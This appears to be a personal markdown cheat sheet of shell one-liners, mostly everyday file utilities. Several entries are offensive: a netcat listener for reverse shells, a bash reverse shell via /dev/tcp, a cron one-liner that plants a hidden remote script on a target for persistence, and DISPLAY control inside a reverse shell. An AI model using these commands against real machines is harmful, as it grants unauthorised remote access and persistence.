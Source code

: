 ## Commands
This is my quick list of commands

* Gives a quick help guide to commands
`curl cheat.sh/<command>`

* Using netcat, listen on a port for reverse shell
`nc -nlvp <port>`

* Set a cronjob using one liner
`{ crontab -l; echo "*/1 * * * * /home/$target/Documents/.lolgotem/remote.sh"; } | crontab -`

* Reverse bash shell
`bash -i >& /dev/tcp/<ip>/<port> 0>&1`

* when reverse shell, control display
`export DISPLAY=:0.0`

* Insert typed text until flag is given. In this case, ZZ is used
`cat << ZZ > input.txt`

* Fill a file with random junk
`base64 /dev/urandom | head -c <# of bytes> > file.txt`

* Split large file into chunks
`split -b 9999k file.txt part.`

* To recombine
`cat part.?? > recombine.txt
